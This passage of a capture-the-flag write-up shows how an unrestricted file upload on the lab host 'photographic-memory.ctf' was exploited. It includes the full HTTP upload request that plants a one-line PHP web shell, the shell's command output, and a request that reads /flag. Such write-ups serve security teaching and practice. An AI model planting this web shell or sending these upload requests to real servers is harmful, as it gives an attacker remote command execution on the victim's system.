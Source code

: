 ## Remote Code Execution

We decided to upload directly a [very tiny](https://www.pentestpartners.com/security-blog/the-tiniest-php-system-shell-ever/) `PHP` reverse shell:

```powershell
POST /dashboard.php HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------62884936718515663351035206868
Content-Length: 250
Origin: http://photographic-memory.ctf
Connection: close
Referer: http://photographic-memory.ctf/dashboard.php
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1

-----------------------------62884936718515663351035206868
Content-Disposition: form-data; name="photo_memory"; filename="shell.php"
Content-Type: application/x-php

<?=`$_GET[1]`?>

-----------------------------62884936718515663351035206868--
```

Giving us remote code execution on the server <http://photographic-memory.ctf/photo-memory-uploaded/admin/shell.php?1=id>:

```powershell
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

After a very quick recon we identified that there was a `flag` file at the root (`/`) of the file system:

```powershell
GET /photo-memory-uploaded/admin/shell.php?1=cat+/flag HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1


HTTP/1.1 200 OK
Date: Sun, 19 May 2024 17:06:21 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 44
Connection: close
Content-Type: text/html; charset=UTF-8

FLAG-5e2338188e4ab1850dd5bf94c32c33c5 (2/2)
```
